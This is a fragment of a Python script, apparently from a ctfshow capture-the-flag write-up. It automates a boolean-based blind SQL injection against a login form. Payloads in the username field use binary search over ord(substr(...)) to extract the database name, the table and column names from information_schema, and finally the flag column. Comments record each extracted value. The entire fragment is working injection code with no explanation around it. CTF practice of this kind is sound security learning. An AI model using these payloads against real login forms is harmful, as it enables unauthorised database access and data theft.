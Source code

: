 ```python
            break
        # 爆库名
        payload = "admin'and (ord(substr((select database()),{},1))<{})#".format(i,mid)
        #ctfshow_web
        #payload = "admin'and (ord(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))<{})#".format(i,mid)
        #ctfshow_fl0g
        #payload = "admin'and (ord(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'),{},1))<{})#".format(i,mid)
        #id,f1ag
        # payload = "admin'and (ord(substr((select f1ag from ctfshow_fl0g),{},1))<{})#".format(i,mid)

        data = {
            "username":payload,
            "password":0,
        }
        res = requests.post(url = url,data =data)
        time.sleep(0.3)
        if res.text.find("8bef")>0:
            max = mid
        else:
            min = mid 
```
